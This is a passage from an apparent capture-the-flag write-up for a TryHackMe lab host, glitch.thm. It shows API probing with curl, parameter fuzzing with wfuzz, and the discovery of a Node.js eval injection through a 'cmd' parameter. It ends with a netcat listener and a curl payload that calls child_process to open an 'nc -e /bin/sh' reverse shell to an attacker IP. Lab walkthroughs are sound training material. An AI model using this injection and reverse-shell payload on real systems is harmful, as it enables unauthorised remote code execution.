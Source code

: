 ![image](https://user-images.githubusercontent.com/67465230/186192459-e1cf826f-7cd8-486d-9efe-089ea35cc2ca.png)

We get a response, let’s switch to curl and investigate further,

```bash
curl http://glitch.thm/api/items
```

![image](https://user-images.githubusercontent.com/67465230/186192531-caef69d6-6a05-4db7-98c9-da5e1044444f.png)

A normal request like above is doing a GET, what happens if we instead try a POST:

```bash
curl -X POST http://glitch.thm/api/items
```

![image](https://user-images.githubusercontent.com/67465230/186192572-960837e8-1c7f-4bed-84a2-96453466323a.png)

we can assume there is a parameter needed based on that response. 

We can try to fuzz the parameter,

```bash
wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/medium.txt --hc 400 -X POST -u http://glitch.thm/api/items\?FUZZ\=test
```

![image](https://user-images.githubusercontent.com/67465230/186192666-ee4e39da-153d-4281-9a19-b08d665f65ed.png)

we've fuzzed the parameter 'cmd' and told the wfuzz to only display results were the response wasn’t 400 Bad Request. 

Let's use the curl command again using the parameter we got,

```bash
curl -X POST http://glitch.thm/api/items?cmd=test
```

![image](https://user-images.githubusercontent.com/67465230/186192718-3076e4e4-9e84-4d59-b41c-3175c4e03668.png)

we got a lengthy error message which tells us 2 things.

First things there is a function which doesn't like our input,

![image](https://user-images.githubusercontent.com/67465230/186192773-c93320be-53b5-452c-a15b-7a8bd3ca45e5.png)

we got another error in NodeJs application as it mentions node_modules,

![image](https://user-images.githubusercontent.com/67465230/186192827-abac7bec-9a86-4e1a-a10a-ab894cbc0363.png)

I don’t know about the eval function and if it’s exploitable, but a quick search found [this](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44) and [this](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6), both explain how to take advantage of it.

Let's start netcat listener using `nc -nvlp 4444` and then let's execute this command,

```bash 
curl -X POST http://glitch.thm/api/items?cmd=require('child_process').exec('nc -e /bin/sh 10.9.2.86 4444')
```
